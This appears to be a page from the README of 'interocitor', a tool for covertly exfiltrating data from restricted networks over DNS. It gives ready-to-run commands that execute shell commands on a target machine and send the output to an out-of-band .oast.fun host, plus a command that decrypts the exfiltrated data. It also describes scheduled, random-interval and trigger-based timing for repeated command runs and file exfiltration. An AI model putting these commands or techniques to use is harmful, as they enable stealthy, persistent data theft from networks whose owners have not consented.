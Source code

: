 Extract any exfiltrated data from the DNS lookup file cmdoutput.json, that has the UUID 0123, and decrypt it, placing the final content in cmdout.txt:
interocitor --task extractdecrypt -v -j ../../../TestData/cmdoutput.json -l ../../../TestData/cmdout.txt -u 0123

Cmd Mode
--------
Use Cmd Mode to run the desired command(s) on the machine sitting in a restricted network, and export the resulting output.
Cmd Mode provides facilities to run a shell command once, or multiple times, exfiltrating immediately, or writing output to a file for subsequent exfiltration at a specified time. It is also possible to specify a particular shell, if desired and to and to add a time limit before sending cancel (Ctrl + C) to the process.
It is necessary to specify ‘mode’ as ‘cmd’ or ‘command’, and additionally specify a ’task’ as "c", "cmd", "once", "single", or “singlecmd" to execute one command on its own, or "cf", "filecmd", or "cmdfile" to execute a series of task from a file.
See the Timings and Triggers section below for further information on how to execute repeated commands on a regular basis.

Examples:
Execute the command “ls -al” once and exfiltrate the results immediately:
interocitor --mode cmd --task singlecmd -v --cmd ls --params ‘-al’ --oob wotmvksfjpdystzjbsgg3e096tnx0mcum.oast.fun

Execute the command “ls -al” once and exfiltrate the results immediately, via a random target from the configs/domains.txt file:
interocitor --mode cmd --task singlecmd -v --cmd ls --params ‘-al’ -d ./configs/domains.txt --oob wotmvksfjpdystzjbsgg3e096tnx0mcum.oast.fun

 
DNS Mode
--------
[still under development]


Timing and Triggers for Multiple Operations and Multiple Exfiltrations
----------------------------------------------------------------------
Interocitor has functionality to run commands on a regular basis and to upload results on a regular basis.
The timing of execution and timing of uploads can be enforced in four ways:
1)	Fixed Timing		Commands or uploads are carried out following a regular time period, with amount and units specified by the user, e.g. every 8 hours or every 5 days
2)	Scheduled Timing	Commands are carried out at a future date date and time provided by the user, e.g. at 15:25 on 28/09/2026
3)	Random Timing		Commands or uploads are carried out following a random time period, being an amount with max val and min val, and units specified by the user, e.g. a number of hours between 2 and 40
4)	Trigger Timing		Commands or file exfiltration is carried out whenever a trigger condition is met, such as different output from a shell command, new files added to a directory, a specified file increases in size

These timings are generally applied to Cmd Mode, where there may be a desire to view the same command output at regular intervals, or to Exfiltration Mode, where there may be a desire to exfiltrate new files as they appear in a particular directory.

